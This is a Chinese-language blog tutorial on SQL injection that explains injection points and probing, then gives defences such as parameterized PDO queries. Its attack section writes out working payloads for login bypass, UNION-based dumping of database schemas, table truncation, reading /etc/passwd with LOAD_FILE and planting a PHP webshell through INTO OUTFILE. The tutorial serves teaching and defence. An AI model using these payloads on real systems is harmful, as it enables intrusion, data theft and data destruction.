 ```yaml
---
title: 邪恶的SQL注入
date: 2013-09-03 21:34:00
updated: 2015-07-03 21:46:39
tags: 
- java
- image
categories: 
- java

---
```

无论是在开发软件还是在制作Web应用，在处理用户输入或和用户进行交互时，从安全的角度考虑，一定要始终记住一句话：所有用户输入都是邪恶的。因为你永远都想不到用户会给你什么。在Web世界里最流行的Web攻击是SQL注入和DOS攻击。今天我们就从SQL注入攻击开始，分析用户可能会给你带来的惊喜。

## 一、SQL注入的位置


<!--more-->


SQL注入只有在SQL语句中插入了用户输入的字符串并没有做好相应的处理时才会发生，用户输入的来源可以是URL参数，POST数据，外部用户输入信息等。程序员在编写代码时往往需要在SQL中填入用户输入的参数，譬如根据用户ID查询用户信息，查询链接类似于`/get_user_info.php?uid=123`，具体到SQL代码可能是下面这样：

`SELECT * FROM User WHERE uid = 123`

或者是根据用户名来查找用户，链接类似于`/search_user.php?name=Zhangsan`，具体到SQL代码类似于下面：

`SELECT * FROM User WHERE name = 'Zhangsan'`

上面例子中123和Zhangsan就是用户输入的参数，同时也是可能的注入点。常见的SQL注入位置有下面几种（当然程序员可以把用户参数写到任何地方，不仅仅是WHERE条件里，也可以是`ORDER BY`或`GROUP BY`子句，甚至是SQL语句本身）：

    SELECT * FROM table WHERE id = XXX
    SELECT * FROM table WHERE name = 'XXX'
    SELECT * FROM table WHERE name = 'XXX' AND pass = 'YYY'
    SELECT * FROM table WHERE name = "XXX"
    SELECT * FROM table WHERE id IN (XXX)
    SELECT * FROM table WHERE name like '%XXX%'

## 二、SQL注入方法

从上面列出的SQL语句可以看出，常见的查询参数有可能是数字类型，也可能是字符串类型。两种类型的参数有不同的注入检测方法，字符串类型的参数可以使用`' '' " "" \ \\\`进行试探，而数字类型时可以用`AND 1、AND 0、AND true、AND false、1-false、1-true、2-1、1*100`等方法进行试探。下面举例说明： 一般情况下，如果程序对用户输入的参数做了正确的处理，那么输入任何参数页面都不会报错。如下面两句SQL：

    SELECT * FROM User WHERE name = 'Zhangsan''
    SELECT * FROM User WHERE name = 'Zhangsan'''

这两个SQL第二个是合法的，只要引号成对出现都没问题。如果用户分别输入Zhangsan'和Zhangsan''页面都能正常返回，则表明不存在注入问题，如果第一个输入页面异常，而第二个输入正常则表明该参数很可能是一个可以利用的注入点。 数字类型的参数看下面这个例子，如果用户输入123 AND 1和123 AND 0页面返回正常，并且结果一样，则说明程序对参数作了处理，而如果输入123 AND 1返回正常，输入123 AND 0返回空页面，则说明存在注入的可能。

    SELECT * FROM User WHERE uid = 123 AND 1
    SELECT * FROM User WHERE uid = 123 AND 0

# 三、注入能做什么

如果SQL注入只是简单的让页面出错或者返回空页面的话，那么SQL注入也就不会这么吸引人了。SQL注入的强大之处在于可以在服务器上做几乎任何事，听起来似乎是危言耸听，但事实确实如此，要不然SQL注入怎么会和DOS攻击一起成为最流行的网络攻击方法呢。下面我们就来看下通过一个简单的URL参数，可以做多么不可思议的事。

## 3.1 绕开验证

在用户登陆时，往往要根据用户输入的用户名和密码到数据库中进行查询比较，如果用户名和密码匹配则认为登陆成功。相应的SQL语句如下：

`SELECT * FROM Customer WHERE name = 'XX' AND pass = 'YY'`

如果没有对用户输入的参数进行检查，则当输入用户名为`admin`，密码为`' OR '' = ' `时，执行下面的SQL语句：

`SELECT * FROM Customer WHERE name = 'admin' AND pass = '' OR '' = ''`

这个SQL语句中的`'' = ''`将这个WHERE条件变成了恒等于TRUE，所以会返回所有记录。如果程序通过判断返回的记录数是否大于0来判断验证是否通过的话，这样我们就绕过了程序的验证。

## 3.2 暴库

根据上面的例子可以看到原本是想查询用户名为admin的用户记录，SQL注入后返回的却是数据库中的所有记录。通过这种方式连接其他的表，利用一点点的手段，就几乎可以获取所有数据库、所有表、所有字段的信息，并可以根据这些信息进一步查询数据库中的任意数据。这就是所谓的暴库。譬如还是上面的SQL例子，通过下面的SQL可以获取MySQL版本：

`SELECT * FROM User WHERE name = 'Zhangsan' AND MID(VERSION(),1,1) = '5'`

通过下面的SQL可以爆出所有表：

`SELECT * FROM User WHERE name = 'Zhangsan' UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM information_schema.TABLES WHERE TABLE_TYPE = 'BASE TABLE'-- -'`

这种方法称为Union法。要让这个SQL能够正确执行，User表的字段必须和后面UNION SELECT的字段个数一致，如果字段个数不一致SQL执行会报错。所以要让这种方法生效首先得确定User表字段个数，一般通过ORDER BY试探法，如下所示，通过递增ORDER BY的数值直到页面出错来确定字段个数。

    SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 1 -- -'  -- 正常
    SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 2 -- -'  -- 正常
    SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 3 -- -'  -- 正常
    SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 4 -- -'  -- 正常
    SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 5 -- -'  -- 页面出错，可推测User表字段数为4

确定好`User`表的字段个数后，后面的`UNION SELECT`语句也需要做相应的调整，可以用数字1来填充，如下：

`SELECT * FROM User WHERE name = 'Zhangsan' UNION SELECT TABLE_SCHEMA, TABLE_NAME, 1, 1 FROM information_schema.TABLES WHERE TABLE_TYPE = 'BASE TABLE'-- -'`

## 3.3 增删改查，任意数据库操作

一旦知道了所有的数据库信息，则可以修改注入语句任意操作数据库。如下的例子将`Product`表清空：

`SELECT * FROM User WHERE uid = 123; TRUNCATE TABLE Product`

## 3.4 读写文件

MySQL提供了两个方法可以从本地读取和写入文件，如下：

    SELECT LOAD_FILE('/etc/passwd');
    SELECT '<? system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php';

上面两个例子展现了SQL注入的强大威力，如果MySQL用户拥有读写文件的权限，那么SQL注入将对站点带来巨大的威胁。第一个例子可以爆出linux服务器上的账号密码文件，第二个例子是向网站根目录写一个webshell，通过这个webshell用户就可以执行linux的系统命令了。譬如：`http://www.example.com/shell.php?c=ls`，通过webshell攻击者可以进一步做更多的事情了，最后直到控制整个服务器。

## 四、防范SQL注入

针对SQL注入的特点，总结以下几点基本的防范原则：

    

 1. 永远不要相信用户输入，对用户输入进行校验；
 2. 永远不要自己拼接SQL；
 3. 永远不要用管理员权限的数据库连接；
 4. 永远不要明文保存机密信息；
 5. 尽量不要显示程序的异常信息，保存到表或日志文件中；
 6. 使用WAF；（绕过WAF又是另一个话题了）

从编程的角度来看可以做如下的事情：

    

 1. 用户输入验证：类型转换、正则表达式、特殊符号过滤（引号，分号，注释符号等）
 2. 使用参数化存储过程
 3. 使用参数化SQL语句
 4. 采用ORM框架

其中将拼接的SQL语句改为使用参数化的SQL语句是最常用的防范方法，另外，参数化的SQL不仅比拼接的更安全，而且性能要更高。 SQL语句的执行过程分几个步骤：语法检查、分析、执行、返回结果。当一条SQL通过语法检查后，会在共享池里寻找是否有跟其相同的语句，如果有则用已有的执行计划执行语句，如果没有找到，则生成执行计划，然后才执行语句。 自己拼接的SQL语句会随着变量的不同而不同，如下面的两句SQL，执行每个SQL的时候都会生成一次执行计划，而这些执行计划其实都是一样的。

    SELECT * FROM Customer WHERE uid = 1
    SELECT * FROM Customer WHERE uid = 2

当这种SQL语句被大量调用时，会导致共享池中的SQL语句增多，而重用性极低，导致共享池内命中率下降。维护共享池内部结构消耗了大量的CPU和内存资源，而并没有充分利用执行计划的缓存优势，这样会带来性能问题。采用参数绑定的方式，可以解决这个问题：

    $uid = 1;
    $pdo = new PDO(...);
    $sql = "SELECT * FROM Customer WHERE uid = :ID";
    $stmt = $pdo->prepare($sql);
    $stmt->bindValue(":ID", $uid, PDO::PARAM_INT);
    $result = $stmt->execute();

参考

[网络攻击技术开篇——SQL Injection](http://www.cnblogs.com/rush/archive/2011/12/31/2309203.html)
[SQL注入式攻击的防治的六个建议](http://www.oecp.cn/hi/right_way/blog/2274)
[SQL注入漏洞及绑定变量浅谈](http://kb.cnblogs.com/page/55287/)
[SQL注入攻击防御深层思考](http://cookingbsd.blog.51cto.com/5404439/1196198)
[sql注入语句大全](http://www.cnblogs.com/aix1314/archive/2013/03/31/2991609.html)
[十大关系数据库SQL注入工具一览](http://www.csdn.net/article/2012-04-16/2804631)
[SQL注入测试工具：Pangolin（穿山甲）](http://blog.csdn.net/yefan2222/article/details/7086833)
[见招拆招：绕过WAF继续SQL注入常用方法](http://my.oschina.net/mik3y/blog/291613)
[技巧和诀窍：防范SQL注入攻击](http://blog.csdn.net/scottgu/article/details/1365023)
[另类的SQL注入方法](http://www.cnblogs.com/r00tgrok/p/3854754.html)
[深入理解SQL注入绕过WAF和过滤机制](http://www.cnblogs.com/r00tgrok/p/SQL_Injection_Bypassing_WAF_And_Evasion_Of_Filter.html)
[MySql注入科普](http://drops.wooyun.org/tips/123)
[MySql注入科普（原版）](http://websec.ca/kb/sql_injection)


